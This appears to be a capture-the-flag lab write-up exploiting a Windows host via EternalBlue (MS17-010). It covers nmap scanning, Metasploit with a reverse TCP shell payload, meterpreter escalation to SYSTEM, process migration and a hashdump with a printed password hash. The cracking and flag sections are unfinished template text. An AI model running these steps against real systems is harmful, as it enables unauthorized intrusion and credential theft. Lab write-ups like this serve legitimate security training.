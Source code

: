 ## Recon

<details>
<summary> How many ports are open with a port number under 1000? </summary>
  <p></p>

____________________________________________________________________________________________________________________  
  
As we are specifying only ports under 1000 we use the following command:
  
``` nmap [ip] -p 0-1000 ```

As seen below, running this command exposes 3 open ports:
  
![image](https://user-images.githubusercontent.com/66912443/186659494-ca27127c-ef59-4279-8c78-4a66e22f1cd9.png)

____________________________________________________________________________________________________________________  
  
</details>

<details>
<summary> What is this machine vulnerable to? </summary>
<p></p>

____________________________________________________________________________________________________________________ 

The script "vuln" is a CVE detection script that helps discover vulnerabilities in the scanned network. It can be activated with the following command:
  
``` nmap [ip] --script vuln ```
  
As seen below it has identified the machine is vulnerable to "ms17-010"
  
![image](https://user-images.githubusercontent.com/66912443/186661668-94728fae-8558-4642-81a8-3cb717ee4798.png)

____________________________________________________________________________________________________________________  
</details>

## Gain Access

<details>
<summary> Find the exploitation code we will run against the machine. What is the full path of the code? </summary>
  <p></p>
  
____________________________________________________________________________________________________________________ 
  
Rapid7 is a great tool for finding vulnerabilities and their uses along with sometimes instructions on how to complete the exploit yourself. Using rapid7.com's Vulnerability and Exploit Database, this vulnerability can be seen in more detail:
  
``` https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/ ```
  
Talking about instructions on how to complete the exploit yourself, at the bottom of the page the first line of code identifies the exploitation code needed to run against the machine!
  
![image](https://user-images.githubusercontent.com/66912443/186663495-0312c1af-22e4-4549-bfbf-563dda2f2670.png)

____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Show options and set the one required value. What is the name of this value? </summary>
  <p></p>

____________________________________________________________________________________________________________________   
``` RHOSTS ``` is the one required value. This is because RHOSTS determines the ip address of the target.

____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> With that done, run the exploit! </summary>
 
____________________________________________________________________________________________________________________ 

Before running the exploit, make sure to run the following command as by default it will load meterpreter and a follow up question requires converting shell to meterpreter shell.
  
``` set payload windows/x64/shell/reverse_tcp ```
  
Then simply type 'run' and let metaspolit do its thing! If done correctly you will be presented with something similar to the following:
  
![image](https://user-images.githubusercontent.com/66912443/186665440-c9ede66d-7bc3-4245-b47e-a56ceec67727.png)

  
____________________________________________________________________________________________________________________ 

</details>

## Escalate

<details>
<summary> Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? </summary>
  
____________________________________________________________________________________________________________________

Thanks to a post by 'Binamra Pandey' I have learnt the command to convert a shell is as follows: 
   
``` post/multi/manage/shell_to_meterpreter ```
  
<p></p>
  
Source = https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646  
____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Select this (use MODULE_PATH). Show options, what option are we required to change? </summary>
  
____________________________________________________________________________________________________________________ 

``` SESSION ``` is the required option as we need to know which session (that has been backgrounded) to run this exploit on. In my example 'session 2' was backgrounded. 
  
To list all sessions use ``` sessions -l ```
  
![image](https://user-images.githubusercontent.com/66912443/186669104-9eca0c90-a0e7-453b-953b-3fc117fda793.png)


____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> Run! If this doesn't work, try completing the exploit from the previous task once more. </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  Running the exploit should lead you to see similar to this below. As seen in the text it says 'Meterpreter session 3 opened'. So the next step would be to navigate to it using the command:
<p></p>  
  
``` sessions 3 ```

  <p></p>  
  
![image](https://user-images.githubusercontent.com/66912443/186669699-49fc84fc-7b7a-49bf-b5e7-6d29bfba8a0b.png)
  
  ____________________________________________________________________________________________________________________ 

</details>

<details>
<summary> Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  Running 'getsytem':
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186670379-144fb6db-c4a8-48e7-8121-2c1bb294e465.png)
  
  Opening a dos shell and running whoami:
  
  ![image](https://user-images.githubusercontent.com/66912443/186670738-df061830-ee4b-4a00-a779-2d34e8402ddd.png)

____________________________________________________________________________________________________________________ 
  
</details>

<details>
<summary> List all of the processes running via the 'ps' command. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  As seen in the cropped screenshot below, powershell.exe as well as many others are running at 'NT AUTHORITY/SYSTEM'. For simplicities sake I will stick with powershell, process ID 3056.
  <p></p>
  
![image](https://user-images.githubusercontent.com/66912443/186671522-82c4c813-c4f0-492d-a3d6-346b435e3657.png)
____________________________________________________________________________________________________________________   

</details>

<details>
<summary> Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
This is as simple as the following command:
  
```migrate 3056 ```
  
This is useful as now we are running on a process that has system authority!
  
![image](https://user-images.githubusercontent.com/66912443/186671912-1726b9c4-7c78-41c4-934b-3772421e6a6b.png)

____________________________________________________________________________________________________________________   

</details>

## Cracking

<details>
<summary> Within our elevated meterpreter shell, run the command 'hashdump'. What is the name of the non-default user? </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  The name of the non-default user is <i> jon </i>
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186672534-d803dffa-6966-49a6-8fff-7cb3614836bf.png)

____________________________________________________________________________________________________________________   
</details>

<details>
<summary> Copy this password hash to a file and research how to crack it. What is the cracked password? </summary>

  <p></p>
  This is the hashdump we will be working with:
  
``` Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: ```
  
- 'Jon' Indicates the username
- '1000' Indicates the SID
- 'aad3b' Indicates the beginning of an LM hash, a very weak hash that john is good at cracking!
  
To make the hash easier to work with, I have first copied the hash and put it into a file called 'hash.txt' in the root directory.
  
![image](https://user-images.githubusercontent.com/66912443/186675515-4466972d-a3f0-401f-8c8f-e940ce9b1f96.png)

Next, we will use john the ripper to crack the hashes. The command belkow will tell john to crack the paswords in the correct format.

</details>

## Find Flags!

<details>
<summary> Flag1? This flag can be found at the system root. </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> Flag2? This flag can be found at the location where passwords are stored within Windows. </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. </summary>

Any folded content here. It requires an empty line just above it.

</details>

